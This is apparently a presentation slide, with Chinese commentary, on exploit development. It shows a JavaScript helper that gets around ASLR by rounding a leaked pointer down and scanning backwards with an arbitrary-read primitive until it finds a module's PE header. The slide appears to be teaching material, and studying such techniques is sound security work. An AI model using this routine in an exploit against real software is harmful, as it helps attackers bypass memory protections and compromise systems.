

# function GetBaseAddrByPoiAddr()
即使在 ASLR 环境下，模块地址也是 0x10000 对齐的，所以可根据任意指针找到模块基址：
function GetBaseAddrByPoiAddr( PoiAddr ) {
    var BaseAddr = 0;
    BaseAddr = PoiAddr & 0xFFFF0000;
    while( readDword(BaseAddr)     != 0x00905A4D ||
           readDword(BaseAddr+0xC) != 0x0000FFFF    ) {
        BaseAddr -= 0x10000;
    }
    return BaseAddr;
}